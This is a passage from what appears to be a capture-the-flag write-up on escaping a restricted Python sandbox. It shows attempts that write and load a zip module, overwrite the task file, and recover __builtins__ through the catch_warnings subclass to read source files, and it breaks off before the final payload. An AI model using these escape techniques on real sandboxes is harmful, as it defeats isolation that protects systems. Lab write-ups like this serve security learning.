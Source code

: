```
     __builtins__['u']=a+b+c+d+e+f+g+h+i+j+k+l+m+n+o
     __builtins__['v']=u+p+q+r+s+t
     #write it to a file
     w[40]('/tmp/z','wb').write(v)
     #now lets load it in
     w[49]
     Return Value: <type 'zipimport.zipimporter'>
     #and....
     w[49]('/tmp/z').load_module('z')
     Exception: can't decompress data; zlib not available
```
That last part... after all that work... made me... sad. Very sad.

But I had to move on, and get past the fact that they COMPILED PYTHON WITHOUT ZLIB. Next, I tried to just overwrite their file with my own:
```
     w[40]('task5.py','w').write('z')
     Exception: [Errno 13] Permission denied: 'task5.py'
```
No luck. I then googled around and found [this page](http://blog.delroth.net/2013/03/escaping-a-python-sandbox-ndh-2013-quals-writeup/). The main post seemed like it could work, but was too complicated for me to fully grasp (and also there's a 50 character limit per entry, so it would take forever to input it). What interested me more was the comment:

#### TL;DR
```
     __builtins__=([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__)
     import sys; print open(sys.argv[0]).read()
```
Hey, I can do that!
```
     # the class
     w[53]
     Return Value: <class 'warnings.catch_warnings'>
     #and.....
     w[53]()._module.__builtins__
     Exception: 'warnings'
```
Nope. Not today.
So I kept looking (I was going though the modules by hand for a while, but no luck)
Then I found this [script](http://nedbatchelder.com/blog/201302/finding_python_3_builtins.html). Huh, that looks interesting. Lets run it on my machine (after reading the source).
```
    ...
    Examining codecs.IncrementalEncoder
     Looks like codecs.IncrementalEncoder.__init__.__func__.__globals__['__builtins__'] might be builtins
     Examining codecs.IncrementalEncoder()
	...
```
Well, as it turns out, those are false positives (they return the local broken `__builtins__`). I added this to the searching script to have it find less false positives:
```python
	 from sys import modules
     modules.clear()
     del modules
```
Now the results are less, but still quite&nbsp;numerous. Based on the information previously learned from [this guy](http://blog.delroth.net/2013/03/escaping-a-python-sandbox-ndh-2013-quals-writeup/), I realized that the key was to get into an objects `__enter__`. Scrolling though the&nbsp;indices&nbsp; we see that warnings.catch_warnings (previously caused an exception) can be accessed through its `__enter__` param (without invoking it). This looks quite promising, and using one of the strings from the search, we get this:
```
     # target, with 50 character max per line
```